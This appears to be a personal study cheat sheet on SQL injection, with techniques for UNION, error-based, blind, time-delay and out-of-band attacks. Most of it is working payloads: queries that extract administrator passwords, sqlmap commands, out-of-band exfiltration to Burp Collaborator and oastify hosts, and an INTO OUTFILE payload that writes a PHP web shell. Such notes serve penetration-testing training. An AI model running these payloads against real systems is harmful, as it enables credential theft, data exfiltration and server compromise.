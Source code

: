 ```yaml
---
layout: blank
pagetitle: SQL Injection
---
```


Portswigger Cheat Sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

PentestMonkey Cheat Sheet: https://pentestmonkey.net/category/cheat-sheet/sql-injection

**What is SQL injection**
- Inserting into SQL queries (commonly SELECT, but sometimes others like UPDATE or INSERT)
- `https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
  - Often easiest to figure out hte query by trying to fill out the rest of the query ourselves (so something like `Gifts'--` to get the same data)

**Places to look for SQL injection**
- Can be anywhere, really
- Look for places that would commonly interact with a database
  - Authentication, queries, tracking cookies, etc.
- With BlindSQLi, it can sometimes be pretty hard to tell (missing content can be indicative of simply incorrect values, not SQLi), so I suppose just pass every request through sqlmap
  - Use `*` to indicate where to inject
  - `sqlmap -u {endpoint} --cookie "{vulnerable_cookie}=*" --dbs`

**UNION attacks**
- `UNION` allows executing an additional `SELECT` query and appending results to the original
  - `SELECT a, b FROM table1 UNION SELECT c, d FROM table2` will return values from a and b in table1 and values c and d from table2
- UNION queries require:
  - Individual queries returning same number of columns
  - Data types in column must be compatible
- When commenting, make sure to try `--`, `#`, `-- //`, `# //`, etc.
- Determining column requirements
  - Can use `' ORDER BY 1--`, `' ORDER BY 2--`, and so on to see how many columns exist
  - Can also use `' UNION SELECT NULL, NULL, NULL, {etc}--` for the same purpose - `NULL` is convertible to every common data type
- Finding useful data types
  - String data is often useful, so finding it is important
  - `' UNION SELECT 'a', NULL, NULL, {etc}--` to find which columns allow strings
  - Can use these columns to retrieve interesting data, like usernames/passwords
- If we want to select multiple instances or 2nd/3rd instances from a database, use `LIMIT` to limit the number of results and `OFFSET` to offset which to select from the database
  - `' UNION SELECT username,password FROM users LIMIT 999 OFFSET 0--` would give enough space (999) and set the offset at 0, appending the entire table onto the result
  - Alternatively, we can concatenate the values together into a single column
    - Would look something like this for MySQL: `' UNION SELECT username || password FROM users--`

**Examining the Database**
- We want to find the type, version, table, and columns of the database
- Type/Version: 
  - Microsoft/MySQL: `SELECT @@version`
  - Oracle: `SELECT * FROM v$version`
    - - Every `SELECT` query in Oracle requires the `FROM` keyword - `DUAL` can be used as an always-valid table
      - `' UNION SELECT NULL FROM DUAL--`
    - Allows `--` or `#` for comments
  - PostgreSQL: `SELECT version()`
- Database contents:
  - `information_schema.tables` contains table information
    - Columns are usually like `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE`
  - To see columns in tables, a query like `SELECT * FROM information_schema.columns WHERE table_name = 'Users'` does the trick
    - Tables have columns like the following: `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE`

**Verbose Error Message SQL Injection**
- `CAST` is a useful tool for dumping column data in error messages
  - `CAST((SELECT example_column FROM example_table) AS int)` will yield something like `Invalid syntax: "{column_data} is not an integer"`
  - Example: `' AND 1=CAST((SELECT username FROM users LIMIT 1) as int)--` (check if 1 = integer of string data)

**Blind SQL Injection**
- Blind SQLi is when the neither database query NOR verbose error messages are present in the HTTP response 
- Can identify blind injection by getting normal results to appear with A SQL query `' AND '1'='1`
  - Not commented out since we want to confirm the query was injected and returned the same results 
  - Can sub `' AND '1'='2` to procure an error
- Error-based blind SQLi:
  - Do error-based character comparisons to figure out characters
  - Figuring out tables:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' LIMIT 1)='a` to see if there is a user table (a = a if users exists)
  - Figuring out table columns:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' AND column_name='username' LIMIT 1)='a` to see if there is a "username" column
  - Figuring out column content:
    - `' AND (SELECT 'a' FROM users WHERE username='administrator')='a` to see if there is an "administrator" user 
  - Figuring out conditional table content:
    - `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` to see if the first letter of the administrator's password is "a"
      - Change `(password,1,1)` to `(password,2,1)` to check the second character
      - Alternate: `' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
        - Might not work if strings can't be compared, but can allow a binary search
      - Can be `SUBSTR` with some databases - refer to cheat sheet
- Time delay SQLi
  - Sometimes, the app will handle error messages gracefully, meaning no difference in application response
  - Check for true/false boolean (depending on the database; cheat sheet has copy-paste):
    - `'; IF (1=2) WAITFOR DELAY '0:0:10'--`
    - `'; IF (1=1) WAITFOR DELAY '0:0:10'--`
  - Based on the condition, retrieve data one character at a time (again depending on database):
    - `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

**Error-based SQL Injection**
- Similar to response-based SQLi, where we can infer the result of the query based on an application error
- We'll often need to check whether or not we're injecting into a true or false boolean condition:
  - These are heavily database-dependent; be sure to use cheat sheet
  - `' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` will evaluate to true
  - `' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` will evaluate to false
- Based on the condition needed, we can use the following to exfiltrate characters
  - `' AND (SELECT CASE WHEN (username = 'administrator' AND SUBSTRING(password, 1, 1) = 'a') THEN 1/0 ELSE 'a' END FROM users)='a`
    - Also heavily dependent on database; for Oracle it would be something like `' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='0') THEN 'a' ELSE TO_CHAR(1/0) END FROM dual)='a`
    - Can substitute with `> 'm'` if accepted by the database
  - Intruder can do this quite well with a cluster-bomb attack (iterate all payload combinations for all positions)

**OAST Techniques**
- Applications will sometimes handle the SQL query asynchronously
- Thus, we need to use some external service that can accept connections, like DNS, to confirm query execution 
  - Burp collaborator works well for this
    - Create a payload (by copying it to clipboard), then poll after sending the request
- Payload would look something like a lookup
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`
- Payloads from cheat sheet require decent modification. Remember to try with `UNION`, `;`, etc.
  - Encode ` ` as `+`, `?` marks as `%3f`, `=` as `%3d`, `%` as `%25`, `:` as `%3a`, and `;` as `%3b`
- After confirming SQL injection, exfiltration would look something like:
  - `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
  - An encoded would look something like:
    - `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username='administrator')||'.wee8xnrdltcmbp86tyzupzx5lwrnff34.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`
  - Again, cheat sheet has examples

**Bypassing Defenses**
- If single quotes are totally blacklisted, a `\` as the first parameter can actually unlock an apostrophe to use as part of the second payload
- Backslashes can also be used for bypassing single quotes being replaced with double quotes
- For WAFs, if we can encode the data (HTML, XML), doing so can bypass basic WAFs

**Other Techniques**
- Can trail SQL injection queries with `//` to provide visibility on the payload and protect against whitespace truncation
- Can use `IN` to inject arbitrary second command:
  - `' OR 1=1 IN (SELECT version()) -- //`
  - `' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
- Matching on numbers may not use single/double quotes at all
	- `SELECT * FROM rooms WHERE room_id = 1;` uses no quotes
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
- Not quite SQLi, but in MySQL string comparisons are case-insensitive
  - Thus, if `Admin` and `admin` are different users within the application, we could register `Admin` as a user, which could be functionally treated the same on the backend and provided the same admin functionality